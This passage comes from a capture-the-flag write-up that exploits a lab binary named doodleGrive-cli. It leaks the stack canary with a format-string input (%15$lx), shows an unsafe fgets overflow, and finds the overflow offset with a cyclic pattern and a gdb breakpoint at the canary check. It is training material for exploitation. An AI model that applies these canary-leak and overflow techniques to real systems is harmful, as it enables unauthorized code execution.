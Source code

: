     29: 0:
    30: 0:
    

15 looks like the best candidate to be the carary. If I run the loop a couple
more times, most of the values stay basically the same, but 15 is completely
random. That’s the canary.

The output looks like this:

    
    
    oxdf@hacky$ ./doodleGrive-cli 
    [!]Caution this tool still in the development phase...please report any issue to the development team[!]
    Enter Username:
    %15$lx
    Enter password for ae1d5d1e957b4200:
    

#### Getting BOF Offset

Next I’ll get the offset of the overflow to overwrite RIP. The
`entered_password` buffer is 56 bytes long, but it’s read into unsafely up to
400 bytes:

    
    
    fgets(entered_password,400,(FILE *)stdin);
    

I’ll create a pattern:

    
    
    oxdf@hacky$ pattern_create -l 200
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
    

I’ll set a break point at the place where the canary is checked:

    
    
    gdb-peda$ disassemble main
    ...[snip]...
       0x0000000000402323 <+310>:   mov    rcx,QWORD PTR [rbp-0x8]
       0x0000000000402327 <+314>:   xor    rcx,QWORD PTR fs:0x28
       0x0000000000402330 <+323>:   je     0x402337 <main+330>
       0x0000000000402332 <+325>:   call   0x456d30 <__stack_chk_fail_local>
       0x0000000000402337 <+330>:   leave  
       0x0000000000402338 <+331>:   ret
    gdb-peda$ b *main+314
    Breakpoint 1 at 0x402327
    

I’ll run, entering whatever for the username and the pattern for the password.
When it hits the break point, I can see it’s just loaded the canary off the
stack into RCX:

    